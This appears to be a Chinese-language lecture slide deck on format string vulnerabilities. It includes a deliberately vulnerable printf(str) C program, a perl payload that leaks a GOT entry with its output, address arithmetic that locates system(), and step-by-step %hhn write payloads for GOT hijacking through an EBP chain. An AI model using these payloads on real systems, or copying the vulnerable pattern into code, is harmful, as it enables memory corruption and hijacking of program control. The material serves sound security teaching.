




---
title: Format String Vulnerability
---

# Source code

##
[Source code](w4.tar.gz)

# Format String

## Format String

+ 在輸出函式或字串處理函式中用來表示輸出的字串格式

``` cpp
printf("%s %d\n", str, a);
fprintf(stderr, "%s %d\n", str, a);
sprintf(buffer, "%s %d\n", str, a);
```

## 錯誤的使用方式

<p style="margin:1em;font-size:1.2em">`printf(str);`</p>

<p style="text-align:left">
一般正常輸入時會直接印出原字串，但 `str` 會被做為格式字串解析，
故若輸入內容包含 `%x`, `%d` 等格式字串，就會造成資訊的洩漏。
</p>

## 


## 例子

``` cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void main() {
  char str[100];
  while(fgets(str, sizeof(str), stdin)) {
    if (strcmp(str, "exit\n")==0) {
      break;
    }
    printf(str);
    fflush(stdout);
  }
  exit(0);
}
```

## 進階格式字串用法
+ `%x`, `%d`, `%c`, `%s` <br>印出 16 進制整數、整數、字元、指標指向的字串
+ `%10$x` <br> 印出第 10 個參數的值，實際上是印出 `DWORD [esp+40]` 的內容

##


## 用來洩漏各種資訊
+ 堆疊上會跟堆疊位置有關的變數，且因為堆疊上的區域變數位置都是相對的，只要洩漏其中一個就可以推算其它變數的位置
+ 例如 `push ebp` 使得 `ebp` 的內容被存放在堆疊上
+ 假如 shellcode 是在區域變數，可以用來推算它的位置，溢出後可以直接跳到正確位置上

## 洩漏 StackGuard Canary
+ 利用格式字串洩漏 canary 的值，在溢出時就可以直接寫上正確的值，繞過 stack checking

## 任意位址讀取
+ 若格式字串位於堆疊上，可以利用 `%s` 讀取記憶體中任意位址的內容
+ 構造適當的輸入，將要讀取的位址做為參數傳遞給 `%s`，就可以做為字串印出目標的內容

## 洩漏函式庫位址
+ 共享函式庫因為 ASLR，每次的位址不固定，因此沒辦法利用裡面的其它函式 (例如: `system()`)
+ 洩漏出一個函式在被載入的函式庫裡的位址後，就可以推算其它函式的位置


## 例子

``` no-highlight
08048380 <printf@plt>:
 8048380:  ff 25 10 a0 04 08     jmp    DWORD PTR ds:0x804a010
 8048386:  68 08 00 00 00        push   0x8
```
+ `printf` 的 got 欄位位址為 `0x804a010`
+ 洩漏這個位址的內容...


## 

``` bash
perl -e 'print "\x10\xA0\x04\x08%6\$s\nexit\n"' | ./fmt | xxd
```

``` no-highlight
0000000: 10a0 0408 b01b 62f7 5089 63f7 a683 0408  
0000010: b683 0408 70e9 5ef7 0a                   
```

+ 在記憶體裡的位置為 `0xf7621bb0`
+ 在函式庫中，不加上 ASLR 基底的位址為 `0x0004cbb0` <br> (由 `readelf` 取得)
+ 相減後得到此函式庫被載入的基底位址是 <br> `0xf7621bb0 - 0x0004cbb0 = 0xf75d5000`


## 利用函式庫裡其它函式
+ 由 readelf 取得 `system()` 的位址是 `0x0003fc40`，加上 ASLR 基底 `0xf75d5000` 為 `0xf7614c40`
+ 如果有溢出漏洞可以覆寫返回地址，就可以直接返回到 `system("/bin/sh")` 
+ 但必需自行疊好要傳入的參數 (Ref. ROP)

## 更進階格式字串用法
+ `printf` 不止可以用來讀記憶體 (取出變數值然後輸出)，還可以寫入
+ `%n` 寫入「目前已經輸出幾個字元」到對應參數所指的位址
+ `%n` 寫入 DWORD，`%hn`、`%hhn` 寫入 WORD 和 BYTE

## 例子

``` cpp
#include <stdio.h>

void main(){
  int a1, a2, a3, a4;
  printf("AAAABBBB%n\n", &a1);
  printf("%d%n\n", a1, &a2);
  printf("%100c%n\n", a1, &a3);
  printf("%08x %1$n %d\n", &a4, a3);

  printf("\n%d %d %d %d\n", a1, a2, a3, a4);
}
```
執行結果: `a1=8, a2=1, a3=100, a4=9`

## 任意位址寫入
+ 若格式字串位於堆疊上，可以利用 `%n` 對記憶體中任意位址寫入資料
+ 類似任意讀取時的作法，一樣可以將要寫入的目標位址放在堆疊上
+ 利用 `%123c` 這樣的格式字串控制輸出的長度
+ 再使用 `%hhn`，可以寫入一個 byte 到目標位址

## 控制寫入數值
+ 要用 `%n` 直接寫入一個 32-bit 位址不太可能，因為要輸出的長度太長了
+ 改用 `%hhn` 分 4 次寫入，把每次要寫入的位址依序放在堆疊上，一次最多只要輸出 256 個字元
+ 例如 `%100c%10$hhn%200c%11$hhn` 
    + 第一次寫入 `100 = 0x64`
    + 第二次寫入 `(100 + 200) % 256 = 0x2c`

## GOT Hijack
+ 呼叫函式庫中的函式，必須要透過查詢 GOT 來找出要跳轉的位址
+ 如果改掉 GOT 上面的內容，在程式呼叫函式時就可以控制程式的行為
+ 善用原本就有的參數

##


## 例子

``` cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void main() {
  char str[100];
  while(fgets(str, sizeof(str), stdin)) {
    if (strcmp(str, "exit\n")==0) {
      break;
    }
    printf(str);
    fflush(stdout);
  }
  exit(0);
}
```

## 其它格式化函式
+ `fprintf` &mdash; 同 `printf`
+ `sprintf` &mdash; 輸出到字串裡，基本上跟 `printf` 相同，但要注意如果造成溢出則很有可能會 crash
+ `snprintf` &mdash; 有長度限制的 `sprintf` 版本，有了長度限制無法造成溢出，但不會影響 `%n` 
的計算，就算構造的輸出超過限制也會被填入正確的數值。

## 堆疊內容不可控
+ 格式字串本身不在堆疊上 (可能在全域變數)，也沒有其它輸入是在區域變數
+ 這樣就無法將 `%s` 或 `%n` 所需的位址放在堆疊裡，無法任意讀取或寫入
+ 但仍然可以將堆疊上的值做為讀取或寫入的目標地址

## EBP Chain
+ `push ebp; mov ebp, esp` 使得堆疊上存放的 `ebp` 值，恰好指向下一個 (caller) 存放位址

## 



## 利用 EBP Chain 控制堆疊內容
+ `ebp2` 被存放在堆疊上，利用這個值，`ebp2` 所指的內容是可以控制的 (1 byte)
+ `ebp2` 指向 `ebp1` 所在位置的最低位，控制最低位將得到堆疊上的一個範圍 (256 bytes)
+ 在利用 `ebp1` 的值，就可以對堆疊上的一段範圍任意寫入，寫出 4 bytes 的目標位址，就可以對任意位址讀寫

</section>
<section data-transition="none" class="slide level2">
<h1>例子</h1>

``` no-highlight
ebp = 0xffffdbd8  target_address = 0x0804a010
0xffffdbd8:     0xffffdbe8    10$ 
0xffffdbe8:     0xffffdbf8    14$ 
0xffffdbf8:                   18$ 
```

1. `"%16c%14$hhn"` 在 `0xffffdbf8` 寫入 `0x10`
<li style="visibility:hidden;">padding</li>

</section>
<section data-transition="none" class="slide level2">
<h1>例子</h1>

``` no-highlight
ebp = 0xffffdbd8  target_address = 0x0804a010
0xffffdbd8:     0xffffdbe8    10$ 
0xffffdbe8:     0xffffdbf8    14$ 
0xffffdbf8:           0x10    18$  
```

2. `"%249c%10$hhn"` 使得 `0xffffdbf8` &#8594; `0xffffdbf9`
3. `"%160c%14$hhn"` 在 `0xffffdbf9` 寫入 `0xa0`


</section>
<section data-transition="none" class="slide level2">
<h1>例子</h1>

``` no-highlight
ebp = 0xffffdbd8  target_address = 0x0804a010
0xffffdbd8:     0xffffdbe8    10$ 
0xffffdbe8:     0xffffdbf9    14$ 
0xffffdbf8:         0xa010    18$  
```

4. `"%250c%10$hhn"` 使得 `0xffffdbf9` &#8594; `0xffffdbfa`
5. `"%4c%14$hhn"` 在 `0xffffdbfa` 寫入 `0x04`

</section>
<section data-transition="none" class="slide level2">
<h1>例子</h1>

``` no-highlight
ebp = 0xffffdbd8  target_address = 0x0804a010
0xffffdbd8:     0xffffdbe8    10$ 
0xffffdbe8:     0xffffdbfa    14$ 
0xffffdbf8:       0x04a010    18$  
```

6. `"%251c%10$hhn"` 使得 `0xffffdbfa` &#8594; `0xffffdbfb`
7. `"%8c%14$hhn"` 在 `0xffffdbfb` 寫入 `0x08`

</section>
<section data-transition="none" class="slide level2">
<h1>例子</h1>

``` no-highlight
ebp = 0xffffdbd8  target_address = 0x0804a010
0xffffdbd8:     0xffffdbe8    10$ 
0xffffdbe8:     0xffffdbfb    14$ 
0xffffdbf8:     0x0804a010    18$  
```
8. `"%18$hhn"` 可以讀取或寫入在 `0x0804a010` 處的內容
<li style="visibility:hidden;">padding</li>


